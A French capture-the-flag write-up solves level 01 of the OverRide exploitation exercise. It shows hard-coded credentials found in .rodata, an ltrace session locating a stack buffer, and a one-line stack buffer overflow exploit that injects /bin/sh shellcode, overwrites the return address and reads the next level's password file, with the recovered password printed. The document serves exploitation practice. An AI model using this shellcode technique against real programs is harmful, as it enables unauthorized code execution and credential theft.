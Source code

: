 # Level 01

L'username et le mot de passe sont triviaux à trouver dans la section .rodata: `dat_wil` et `admin`

On peut overflow fgets qui écrit 100 caractère dans un buffer de taille 76.

Il nous suffit donc de mettre un shellcode dans le buffer et set l'adresse de retour du main au début du buffer.

Trouvons l'adresse du buffer dans un premier temps avec ltrace:

```bash
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10524, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                                                              = 39
printf("Enter Username: ")                                                                               = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                                                                      = 0x0804a040
puts("verifying username....\n"verifying username....

)                                                                         = 24
puts("Enter Password: "Enter Password: 
)                                                                                 = 17
fgets(admin
"admin\n", 100, 0xf7fcfac0)                                                                        = 0xffffd5fc
puts("nope, incorrect password...\n"nope, incorrect password...

)                                                                    = 29
```

L'adresse du buffer est donc: 0xffffd5fc

On peut donc obtenir le token avec cette commande:

```bash
level01@OverRide:~$ (echo "dat_wil"; python -c 'print "\x31\xC0\x31\xDB\x31\xD2\x31\xC9\xB0\x0B\x53\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\xCD\x80" + "A"*55 + "\xff\xff\xd5\xfc"[::-1] '; echo "cat /home/users/level02/.pass") | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```